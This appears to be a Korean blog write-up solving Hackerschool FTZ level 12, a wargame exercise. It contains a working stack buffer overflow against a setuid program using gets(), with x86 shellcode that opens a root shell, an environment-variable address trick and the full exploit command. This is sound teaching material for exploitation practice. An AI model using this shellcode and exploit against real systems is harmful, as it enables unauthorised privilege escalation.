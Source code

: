 ```yaml
---
date: '2022-10-02'
before : '2022-10-01'
after : '2022-10-03'
title: '해커스쿨 FTZ 레벨 12'
categories: [ 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. __들어가기 전에__

이것 또한 기본 BOF문제라고 할 수 있겠다. 11번과 다른 점은 gets를 사용한다는 점이다.

### 1. __Level 12__

접속하면 AttackMe 실행파일이 존재한다. 소스코드를 확인해보자.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( void )
{
        char str[256];

        setreuid( 3093, 3093 );
        printf( "문장을 입력하세요.\n" );
        gets( str );
        printf( "%s\n", str );
}
```

레벨 11과 다를 것 없는 구조다. 다른 점은 gets(str)을 이용해 입력을 받는다는 사실.
gets()는 정말 위험한 함수니 내가 프로그래밍 할땐 절대 사용하지 않도록 해야겠다...


**<환경변수 등록>**

쉘코드는 4바이트짜리 return 에 들어가기는 너무 길다. 따라서 우린 "환경 변수"" 라는 친구를 만들어서 그 친구의 주소를 파악한 다음, 그 주소를 return 주소로 넘기도록 하겠다.
```
export SHELLCODE=$(python -c 'print "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"') 
//환경변수 등록
```
쉘코드는 인터넷에서 카피해오는게 제일 빠르다..
```
int main(){ //get.c
        printf("%p\n", getenv("SHELLCODE"));
        return 0;
}
//쉘코드의 위치를 알려줄 함수 작성
```
c파일을 gcc로 컴파일 했으면 실행해보자. 다음과 같은(유사한) 결과를 얻을 것이다.
```
./get => 0xbffffc8d
```
이제 이 주소를 little endian x90형식으로 변환시키면 된다. 이 경우에는 **\x8d\xfc\xff\xbf** 가 될 것이다. 그럼 이제 이 값을 return주소에 넣어주면 된다.


**<버티컬바 "|" 실행>**

버티컬바 하나는 앞의 명령어 실행 결과를 뒤의 명령어의 입력으로(!) 넘긴다.
물론 먼저 attackme를 실행한 후 268개의 문자를 일일히 타자로 쳐도 되겠지만(...) 너무 귀찮은 작업이니 python -c를 사용하기 위해  cat으로 문장을 입력받은 다음 버티컬 바를 이용해서 이를 매개변수로 넘겨주도록 하자.
```
"\x90"*268+"\x8d\xfc\xff\xbf
 (python -c 'print"\x90"*268+"\x8d\xfc\xff\xbf"'; cat) | ./attackme
```
비밀번호 : have no clue

---
## Source

- 해커스쿨 FTZ
- Me!


